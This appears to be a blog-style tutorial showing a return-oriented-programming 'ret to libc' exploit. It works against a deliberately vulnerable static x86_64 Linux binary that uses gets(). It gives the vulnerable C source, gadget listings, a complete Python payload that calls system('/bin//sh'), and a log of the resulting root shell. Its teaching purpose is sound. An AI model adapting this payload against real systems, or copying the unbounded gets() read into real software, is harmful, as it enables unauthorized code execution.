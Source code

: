 ```yaml
---
layout: post
title: "[ROP] Ret to LibC"
categories: [pwn]
tags: [pwn, ROP]
description: How to bypass NX/ASLR protections using "ret to LibC" attacks on a x64 Linux system.
---
```


Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

# 1. Vulnerable binary
We can do a lot of things thanks to Return Oriented Programming. Today I will show you how to return to Libc function.
```c
#include <stdio.h>
#include <stdlib.h>

void my_system()
{
  printf("Who I am:\n");
  system("whoami");
}

int main(int ac, char **av)
{
  char buf[64];

  gets(buf);    // Warning
  my_system();
  printf("me:\n%s", buf);
  return 0;
}
```

This very simple program use the "system" libc function to display the "whoami" command output. We will hijack the program to execute the "/bin/sh" command instead of "whoami".

# 2. To begin
If we take a look at the compile code, we can see:
```nasm
$ objdump -D a.out | grep -A 12 "<__libc_system>:"
00000000004075d0 <__libc_system>:
  4075d0:	48 85 ff             	test   %rdi,%rdi
  4075d3:	74 0b                	je     4075e0 <__libc_system+0x10>
  4075d5:	e9 26 fc ff ff       	jmpq   407200 <do_system>
  4075da:	66 0f 1f 44 00 00    	nopw   0x0(%rax,%rax,1)
  4075e0:	48 83 ec 08          	sub    $0x8,%rsp
  4075e4:	bf d6 8b 48 00       	mov    $0x488bd6,%edi
  4075e9:	e8 12 fc ff ff       	callq  407200 <do_system>
  4075ee:	85 c0                	test   %eax,%eax
  4075f0:	0f 94 c0             	sete   %al
  4075f3:	48 83 c4 08          	add    $0x8,%rsp
  4075f7:	0f b6 c0             	movzbl %al,%eax
  4075fa:	c3                   	retq
```

It's the assembly code of the system function. The function simply take a parameter which is place in the RDI register and represent the command executed by the system function.

So the playload will look like:
```bash
+---------------------------+
|          pop rsi          |
|          @ data           |
|          pop rax          |
|  mov QWORD PTR [rsi], rax |
|          pop rdi          |
|          @ data           |
|     @ __libc_system       |
+---------------------------+
```

# 3. The payload
Thanks to ROPgadget, we easily can get all the gadget we need:
```bash
$ ROPgadget --binary a.out | egrep "pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret"
...
0x000000000045fd31 : mov qword ptr [rsi], rax ; ret
0x0000000000431d4d : pop rax ; ret
0x00000000004015cb : pop rdi ; ret
0x00000000004016e7 : pop rsi ; ret
...
```

As we already have the system address, we only need the data address:
```bash
$ objdump -D a.out | grep "<data>":
00000000006b84b8 <data>:
```

The whole payload will look like:
```python
#!/usr/bin/env python2.7

from struct import pack

payload = 'A'*72 # Padding

payload += pack("<Q", 0x00000000004016e7) # pop rsi ; ret
payload += pack("<Q", 0x00000000006b84b8) # @ data
payload += pack("<Q", 0x0000000000431d4d) # pop rax ; ret
payload += '/bin//sh'
payload += pack("<Q", 0x000000000045fd31) # mov qword ptr [rsi], rax ; ret
payload += pack("<Q", 0x00000000004015cb) # pop rdi ; ret
payload += pack("<Q", 0x00000000006b84b8) # @ data

payload += pack("<Q", 0x00000000004075d0) # @ __libc_system

print payload
```

# 4. Exploitation
A root shell please !
```bash
$ (python rop.py;cat) | ./a.out
Who I am:
root
me:
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
